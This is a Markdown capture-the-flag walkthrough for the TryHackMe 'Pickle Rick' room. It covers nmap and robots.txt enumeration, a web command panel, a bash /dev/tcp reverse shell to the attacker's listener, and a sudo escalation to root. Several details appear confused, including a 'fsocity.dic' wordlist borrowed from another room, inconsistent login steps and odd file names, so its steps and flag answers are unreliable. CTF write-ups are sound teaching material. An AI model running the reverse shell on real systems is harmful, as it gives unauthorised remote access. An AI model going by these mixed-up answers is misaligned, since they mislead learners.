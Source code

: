 ```yaml
---
title: Pickle Rick
categories: [TryHackMe]
tags: [Linux, easy]
image: images/Rick/Rick.png
---
```


**Pickle Rick** is an **easy** rated room on **TryHackMe** inspired by the *Rick and Morty* series. This walkthrough guides you through using a custom portal to find the three secret ingredients to reverse Rick's pickle transformation.

# 1. Initial Reconnaissance and Scanning

Gather information about the target machine.

### Nmap Scan
Run an Nmap scan to identify open ports and services:

```console
nmap -sC -sV -oN nmap_scan <Target_IP>
```

- `-sC`: Runs default scripts for vulnerability checks.
- `-sV`: Detects service versions.
The scan reveals port 80 (HTTP) is open.

![nmap](../images/Rick/namp.png)

# 2. Web Enumeration

Explore the web interface.

### Access the Portal
Visit `http://<Target_IP>` to access the *Rick and Morty*-themed portal. Check the page source for clues. A note reveals the username: **RickRul3s**.

### Check robots.txt
Retrieve hidden files:

```console
curl http://<Target_IP>/robots.txt
```

This uncovers:
- `fsocity.dic`: A password wordlist.
- `Sup3rS3cretPickl3Ingred.txt`: A file hinting at ingredients.
Retrieve them:

```console
wget http://<Target_IP>/fsocity.dic
wget http://<Target_IP>/Sup3rS3cretPickl3Ingred.txt
```

The first ingredient is **mr_meeseek_hair**.

# 3. Accessing the Command Panel

Navigate to `http://<Target_IP>/portal` to access the command panel.

### Login
Use the credentials from the page source:
- Username: **RickRul3s**
- Password: (Brute-force with `fsocity.dic` if needed via external tool).

### Execute Commands
Use the command panel to list files:

```console
ls -la
```

This reveals files like `Sup3rS3cretPickl3Ingred.txt`, `clue.txt`, etc.
![Directory Listing](path/to/directory_listing.png)

# 4. Gaining a Reverse Shell

### Set Up Listener
On your machine, start a Netcat listener:

```console
nc -lvnp 4444
```

### Execute Reverse Shell
In the command panel, enter:

```console
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```

Replace `10.10.10.10` with your IP. After execution, you should see a connection in your listener.
![Reverse Shell Connection](path/to/reverse_shell.png)

# 5. Privilege Escalation

With the shell, escalate privileges.

### Navigate and List Files
From the shell:

```console
cd /home
ls
cd rick
ls
cd less_second_ingredients
less second_ingredients
```

The second ingredient is **jerry_tear**.

### Escalate to Root
Check sudo privileges:

```console
sudo -l
```

If `(ALL) NOPASSWD: ALL` is allowed, run:

```console
sudo su
cd /root
ls
less 3rd.txt
```

The third ingredient is **fleebs_juice**.
![Sudo Privilege Check](path/to/sudo_check.png)

# 6. Capture the Ingredients

- **First Ingredient**: **mr_meeseek_hair** (from `Sup3rS3cretPickl3Ingred.txt`).
- **Second Ingredient**: **jerry_tear** (from `less_second_ingredients/second_ingredients`).
- **Third Ingredient**: **fleebs_juice** (from `/root/3rd.txt`).

# 7. Final Thoughts

You’ve successfully found all three ingredients: **mr_meeseek_hair**, **jerry_tear**, and **fleebs_juice** to help Rick. This challenge leverages a custom portal and basic Linux skills. Great job, Morty!